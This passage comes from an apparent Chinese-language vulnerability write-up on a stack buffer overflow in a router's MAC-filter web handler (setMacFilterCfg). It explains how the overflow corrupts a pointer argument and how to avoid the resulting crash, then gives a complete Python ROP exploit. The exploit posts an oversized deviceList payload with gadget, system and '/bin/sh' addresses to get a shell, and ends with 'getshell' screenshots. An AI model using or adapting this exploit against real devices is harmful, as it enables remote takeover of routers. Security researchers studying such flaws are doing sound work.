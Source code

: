   
第一个注意的点就是传给set_macfilter_rules_by_one的3个参数在进入set_macfilter_rules_by_one函数后保存的位置，主要关注第一个参数，也就是macFilterType值的地址。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZY4uDqyzHdiaTjSDFZ9ZOIick4lhqurQwkLLaRucXFFdZa1RdUZmBe9F7Q/640?wx_fmt=png "")  
  
而恰好，set_macfilter_rules_by_one在执行完parse_macfilter_rule函数，发生了溢出后，后面的snprintf函数调用了a1，也就是第一个参数，且a1是一个地址，但是按照我们playload覆盖后a1将变为一个值，所以会照成访问异常。  
  
   
  
执行到snprintf。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZYfclS1nkNNZibp87fvGHfIxWnibRD03npPribSeib8PeXHM8jpMc00XAtuA/640?wx_fmt=png "")  
  
  
   
  
解决这个错误也很简单，将b"bbbb"，修改为一可访问地址值就行，而且snprintf也限制了长度，不用担心溢出这些。  
  
### 最终exp以及调试  
  
  
exp  
```
import requests
from pwn import *
 
url = "http://192.168.112.131/goform/setMacFilterCfg"
cookie = {"Cookie":"password=1111"}
 
#libc_base=0x7f583a08-0x0005F804
libc_base=0x7f58452c-0x0006052C
lib=0x7F524000
system=0x0060320
binsh=0x0006AE30
 
gadget1=libc_base+0x00060530
gadget2=libc_base+0x0000DC1C
system_addr=libc_base+system
binsh_addr=libc_base+binsh
 
data = {"macFilterType": "black", "deviceList":b"\r" +  b"A" * 472 + p32(gadget1)+p32(0x7FFFF090)+b"A"*20+p32(binsh_addr)+p32(system_addr)+b"A"*12+p32(gadget2)}
 
requests.post(url, cookies=cookie, data=data)
```  
  
  
  
ida或者gdb调都行。  
  
   
  
gadget1![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZYlWNgQib6M3HYPKIotfVI3fQecUkAqeupYohxwiaCWhU7c0BaN0pxgvkQ/640?wx_fmt=png "")  
  
gadget2![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZY8oPnHUTmWe3kWvWlg9KqXcKKicBe6y0iceibW5r6mW3SrjbbvZFoytMEQ/640?wx_fmt=png "")  
  
getshell![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZYSM6UEo68dKeT5NbMDBPtGWJkEcib6n1bHEI5e1V7yWM0GFGGMJU03rw/640?wx_fmt=png "")  
  